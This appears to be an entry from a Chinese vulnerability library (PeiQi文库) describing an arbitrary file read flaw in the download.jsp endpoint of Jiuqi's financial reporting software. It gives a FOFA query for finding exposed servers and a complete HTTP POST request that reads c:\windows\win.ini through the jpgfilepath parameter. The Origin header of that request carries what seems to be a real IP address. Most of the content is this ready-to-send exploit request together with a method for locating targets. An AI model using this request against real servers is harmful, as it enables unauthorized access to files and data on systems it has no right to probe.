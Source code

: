 ```yaml
---
title: 久其财务报表 download.jsp 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 久其软件
---
```


# 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

> [!NOTE]
>
> 久其财务报表

## FOFA

> [!NOTE]
>
> body="/netrep/"

## 漏洞复现

登录路径如下

![image-20210607211411908](/img/20210924020234446591.png)

发送请求包

```
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```

![image-20210607211527626](/img/20210924020234654604.png)